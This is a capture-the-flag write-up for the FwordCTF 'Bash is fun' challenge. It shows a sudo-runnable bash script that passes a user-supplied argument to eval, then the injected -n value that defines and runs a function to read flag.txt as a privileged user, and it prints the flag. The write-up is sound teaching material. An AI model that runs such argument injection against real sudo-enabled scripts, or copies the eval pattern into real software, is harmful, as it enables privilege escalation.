 ### Bash is fun
###### Description: Bash is fun, prove me wrong and do some privesc.

---
In this challenge we had to SSH into a box. Once in, we were presented with this:

![](./images/ss1.png)

There are 3 interesting looking files. `welcome.txt` only had the following contents:
```
Welcome to Fword Island Mr user ! You have nothing to do here
```
This isn't relevant to getting the flag. Now we're left with `welcome.sh` and `flag.txt`, which we have to obtain.
Running a `sudo -l`, I saw that `user1` (us) has the permissions to execute `welcome.sh` as `user-privileged`.

![](./images/ss2.png) 

Now, let's take a look at `welcome.sh`:-

```bash
#!/bin/bash
name="greet"
while [[ "$1" =~ ^- && ! "$1" == "--" ]]; do case $1 in
  -V | --version )
    echo "Beta version"
    exit
    ;;
  -n | --name )
    shift; name=$1
    ;;
  -u | --username )
    shift; username=$1
    ;;
  -p | --permission )
     permission=1
     ;;
esac; shift; done
if [[ "$1" == '--' ]]; then shift; fi

echo "Welcome To SysAdmin Welcomer \o/"

eval "function $name { sed 's/user/${username}/g' welcome.txt ; }"
export -f $name
isNew=0
if [[ $isNew -eq 1 ]];then
	$name
fi

if [[ $permission -eq 1 ]];then
	echo "You are: "
	id
fi
```

Looking at the script, the answer is obvious. Line 22 has an `eval` command. `eval` expands all the variables and executes the resulting string as a command. Now we have the variable $name in that command, which we have the ability to assign values to using the command line arguments.

So if we run the following command:-

```bash
sudo -u user-privileged ./welcome.sh -n 'myfunc { cat flag.txt; }; myfunc; '
```

The resulting string would become:
```bash
eval "function  myfunc { cat flag.txt; }; myfunc; { sed 's/user/${username}/g' welcome.txt ; }"
```

This will create a function that cats flag.txt and execute the function right after.
Running this, we get the following output:

![](./images/ss3.png) 

And we have the flag!

**FwordCTF{W00w_KuR0ko_T0ld_M3_th4t_Th1s_1s_M1sdirecti0n_BasK3t_FTW}**

Fun fact: This is a reference to the anime "Kuroko no Basket". If you're into anime, check it out! It's a pretty cool sports anime.
